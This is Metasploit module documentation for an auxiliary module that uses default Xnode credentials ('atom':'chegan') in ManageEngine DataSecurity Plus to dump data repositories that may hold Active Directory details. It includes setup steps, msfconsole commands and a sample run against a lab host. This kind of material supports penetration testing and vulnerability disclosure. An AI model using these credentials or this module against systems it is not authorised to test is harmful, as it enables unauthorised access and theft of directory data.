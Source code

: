 ## Vulnerable Application
The module exploits default admin credentials for the DataEngine Xnode server in DataSecurity Plus versions prior to 6.0.1 (6011)
in order to dump the contents of Xnode data repositories (tables), which may contain (a limited amount of) Active Directory information
including domain names, host names, usernames and SIDs.
The module can also be used against patched DataSecurity Plus versions if the correct credentials are provided.

The module's `check` method attempts to authenticate to the remote Xnode server. The default credentials are `atom`:`chegan`.
If the credentials are valid, the module will perform a few requests to the Xnode server to obtain information like the Xnode version.
This is mostly done as a sanity check to ensure the Xnode server is working as expected.

Next, the module will iterate over a list of known Xnode data repositories and perform several requests for each in order to:
- Check if the data repository is configured on the target
- Obtain the total number of records in the data repository
- Obtain both the lowest and the highest value for the ID field (column)

If a given data repository exists, the module uses the above information to dump the data repository contents.
The maximum number of records returned for a search query is 10. To overcome this, the module performs series of requests
using the `dr:/dr_search` action,while specifying the ID values for each record.
For example, if the lowest observed ID value is 15 and the highest is 41, the module will perform three requests:
1. A request for the records with ID values 15 to 24
2. A request for the records with ID values 25 to 34
3. A request for the records with ID values 35 to 41
Empty records are ignored.

To view the raw Xnode requests and responses, enter `set VERBOSE true` before running the module.

By default, the module dumps only the data repositories (tables) and fields (columns) specified in the configuration file.
The configuration file can be set via the CONFIG_FILE option, but this is not required because a default config file exists.
The configuration file is then also used to add labels to the values sent by Xnode in response to a query.
This means that for every value in the Xnode response, the module will add the corresponding field name to the results
before writing those to a JSON file.

It is also possible to use the DUMP_ALL option to obtain all data in all known data repositories without specifying data field names.
However, in the latter case the data won't be labeled.

This module has been successfully tested against DataSecurity Plus 6.0.1 (6010) running on Windows Server 2012 R2
and DataSecurity Plus 6.0.5 (6052) running on Windows Server 2019.

## Installation Information
A free 30-day trial of DataSecurity Plus can be downloaded [here](https://www.manageengine.com/data-security/download.html).
To install, just run the .exe and follow the instructions.
In order to configure the ManageEngine DataSecurity Plus instance for testing, follow these steps:
- Open the Xnode config file at `<install_dir>\apps\dataengine-xnode\conf\dataengine-xnode.conf`
- Note down the username and password
- Insert the following line:
```
xnode.connector.accept_remote_request = true
```
To launch DataSecurity Plus, run Command Prompt as administrator and run: `<install_dir>\bin\run.bat`

## Verification Steps
1. Start msfconsole
2. Do: `use auxiliary/gather/manageengine_datasecurity_plus_xnode_enum`
3. Do: `set RHOSTS [IP]`
4. Do: `run`

## Options
### CONFIG_FILE
YAML File specifying the data repositories (tables) and fields (columns) to dump.
### DUMP_ALL
Dump all data from the available data repositories (tables). If true, CONFIG_FILE will be ignored.

## Scenarios
### DataSecurity Plus 6.0.5 (6052) running on Windows Server 2019 (custom password)
```
msf6 > use auxiliary/gather/manageengine_datasecurity_plus_xnode_enum
msf6 auxiliary(gather/manageengine_datasecurity_plus_xnode_enum) > set rhosts 192.168.1.25
rhosts => 192.168.1.25
msf6 auxiliary(gather/manageengine_datasecurity_plus_xnode_enum) > set password custom_password
password => custom_password
msf6 auxiliary(gather/manageengine_datasecurity_plus_xnode_enum) > options 

Module options (auxiliary/gather/manageengine_datasecurity_plus_xnode_enum):

   Name         Current Setting                                                                                                 Required  Description
   ----         ---------------                                                                                                 --------  -----------
   CONFIG_FILE  /root/github/manageengine/metasploit-framework/data/exploits/manageengine_xnode/CVE-2020-11532/datasecurity_pl  no        File specifying the data repositories (tables) and fields (columns) to dump
                us_xnode_conf.yaml
   DUMP_ALL     false                                                                                                           no        Dump all data from the available data repositories (tables). If true, CONFIG_FILE will be ignored.
   PASSWORD     custom_password                                                                                                 yes       Password used to authenticate to the Xnode server
   RHOSTS       192.168.1.25                                                                                                    yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT        29119                                                                                                           yes       The target port (TCP)
   USERNAME     atom

msf6 auxiliary(gather/manageengine_datasecurity_plus_xnode_enum) > run
[*] Running module against 192.168.1.25

[*] 192.168.1.25:29119 - Running automatic check ("set AutoCheck false" to disable)
[+] 192.168.1.25:29119 - The target appears to be vulnerable. Successfully authenticated to the Xnode server.
[*] 192.168.1.25:29119 - Obtained expected Xnode "de_healh" status: "GREEN".
[*] 192.168.1.25:29119 - Target is running Xnode version: "DataEngine-XNode 1.0.1 (1016)".
[*] 192.168.1.25:29119 - Obtained Xnode installation path: "C:\Program Files (x86)\ManageEngine\DataSecurity Plus\apps\dataengine-xnode".
[*] 192.168.1.25:29119 - Data repository DSPEmailAuditAttachments is empty.
[*] 192.168.1.25:29119 - Data repository DSPEmailAuditReport is empty.
[*] 192.168.1.25:29119 - Data repository DSPEndpointAuditReport is empty.
[*] 192.168.1.25:29119 - Data repository DSPEndpointClassificationReport is empty.
[*] 192.168.1.25:29119 - Data repository DSPEndpointIncidentReport is empty.
[*] 192.168.1.25:29119 - Data repository DspEndpointPrinterAuditReport is empty.
[*] 192.168.1.25:29119 - Data repository DspEndpointWebAuditReport is empty.
[*] 192.168.1.25:29119 - Data repository DSPFileAnalysisAlerts is empty.
[*] 192.168.1.25:29119 - Data repository RAAlertHistory is empty.
[*] 192.168.1.25:29119 - Data repository RAIncidents is empty.
[*] 192.168.1.25:29119 - Data repository RAViolationRecords is empty.
[*] Auxiliary module execution completed
msf6 auxiliary(gather/manageengine_datasecurity_plus_xnode_enum) 
```
